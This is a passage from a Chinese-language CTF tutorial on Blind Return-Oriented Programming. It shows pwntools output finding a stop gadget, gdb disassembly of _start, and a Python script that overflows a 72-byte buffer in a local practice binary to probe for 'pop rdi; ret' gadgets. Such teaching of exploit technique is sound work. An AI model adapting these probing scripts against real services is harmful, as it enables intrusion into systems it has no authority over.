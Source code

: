 ```bash
[+] Starting local process './brop': pid 120035
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120035)
0x4005c0
[+] Starting local process './brop': pid 120038
[*] Stopped process './brop' (pid 120038)
stop gadgets = 0x4005c0
```

可以查看汇编代码验证：(但是真实情况下看不见，这就是脚本的作用)

```bash
gdb-peda$ x /20i 0x4005c0
   0x4005c0 <_start>:   xor    ebp,ebp
   0x4005c2 <_start+2>: mov    r9,rdx
   0x4005c5 <_start+5>: pop    rsi
   0x4005c6 <_start+6>: mov    rdx,rsp
   0x4005c9 <_start+9>: and    rsp,0xfffffffffffffff0
##这里返回的是_start，返回 main 的地址也有用，但是返回_init 不行，这主要看起始给的地址
```

4、寻找 brop gadgets（例如 **\_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址**

```bash
# -*- encoding: utf-8 -*-
from pwn import *
from LibcSearcher import *
#得到可能的 brop gatget
def get_brop_gadget(length, stop_gadget, addr):            
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10             #参考 ret2csu 原理，这里也可以省去 p64(0)*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        #print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        p.close()
        return False

#对可能的 gatget 进行检查
def check_brop_gadget(length, addr):
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10  #同样可以省去'a'*8*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        return False
    except Exception:
        p.close()
        return True


##buffer_length = GetBufferLength()
buffer_length = 72
##stop_gatget = getStopAddr(length)
stop_gadget = 0x4005c0
addr = 0x400760
```